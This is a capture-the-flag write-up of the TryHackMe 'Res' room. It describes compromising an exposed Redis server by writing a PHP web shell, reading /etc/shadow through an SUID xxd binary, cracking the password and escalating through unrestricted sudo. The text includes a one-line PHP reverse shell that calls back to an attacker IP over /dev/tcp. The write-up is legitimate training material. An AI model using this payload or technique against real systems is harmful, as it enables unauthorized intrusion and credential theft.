# Res

## Res - Writeup

**Date**: 27/03/2022

**Difficulty**: Easy

**CTF**: [https://tryhackme.com/room/res](https://tryhackme.com/room/res)

***

Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

## Scan the machine, how many ports are open?

<figure><figcaption></figcaption></figure>

## What’s the database management system installed on the server? What port is the database management system running on?What's is the version of management system installed on the server?

<figure><figcaption></figcaption></figure>

## Compromise the machine and locate user.txt

First of all, let’s visit the webpage hosted on the port 80:

<figure><figcaption></figcaption></figure>

It displays a default page of an apache server recently installed.

As we have seen, there is a redis server running on port 6379. After some reading, I found that there is a way to interact with this service.

Let’s download the redis application:

[https://redis.io/docs/getting-started/](https://redis.io/docs/getting-started/)

[https://redis.io/docs/manual/cli/](https://redis.io/docs/manual/cli/)

Let’s test the connection:

<figure><figcaption></figcaption></figure>

It seems like we have connection with the redis server!

<figure><figcaption></figcaption></figure>

The info command seems to be helpful to retrieve redis server information:

<figure><figcaption></figcaption></figure>

According to this webpage ([https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)) there is a way to do a Remote Code Execution on a redis server:

<figure><figcaption></figcaption></figure>

We should know the path where we want to write the php file. Since we have visited the page before, we know that the folder is: `/var/www/html`

So, following the steps we do the same in our case:

<figure><figcaption></figcaption></figure>

Now let’s visit the page:

<figure><figcaption></figcaption></figure>

It works, now let’s try to write a reverse shell in php:

<figure><figcaption></figcaption></figure>

Let’s open a netcat listener in our machine:

<figure><figcaption></figcaption></figure>

And let’s visit the rs.php file:

<figure><figcaption></figcaption></figure>

We got a connection but it quickly disconnects...

Let’s try with this other one-line php reverse shell:

```jsx
'<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.8.36.26/1234 0>&1\'"); ?>'
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Yeah, this one works!

<figure><figcaption></figcaption></figure>

We found the key file in the /home/vianka folder.

## What is the local user account password?

Before anything, let’s try to stabilize this shell:

<figure><figcaption></figcaption></figure>

Python is installed in the machine, so let’s use it:

<figure><figcaption></figcaption></figure>

Ok, shell stabilized, now let’s look for the local user account password. Can we read /etc/shadow file?

<figure><figcaption></figcaption></figure>

Nope, we can’t.

Something interesting in the history?

<figure><figcaption></figcaption></figure>

Let’s see if we find some keys in the user directory... nothing useful I can see...

After spending some time looking for ssh keys or something useful, I look for files with SUID activated:

<figure><figcaption></figcaption></figure>

From this list, xxd appears in the GTFO Bins list:

<figure><figcaption></figcaption></figure>

Exploiting this, we should be able to read /etc/shadow file!

<figure><figcaption></figcaption></figure>

Yeah! Now with the info of /etc/passwd, let’s use unshadow and John the ripper to crack the hash!

<figure><figcaption></figcaption></figure>

Unshadow done, now let’s crack it!

<figure><figcaption></figcaption></figure>

Cool!

## Escalate privileges and obtain root.txt

Let’s login as vianka and see if we have more permissions:

<figure><figcaption></figcaption></figure>

Enough permissions to access to root folder?

<figure><figcaption></figcaption></figure>

Nope. Let’s see what we can execute with sudo:

<figure><figcaption></figcaption></figure>

Really? We can run any command using sudo...

<figure><figcaption></figcaption></figure>

Woah

<figure><figcaption></figcaption></figure>

And this quickly we get the last flag!
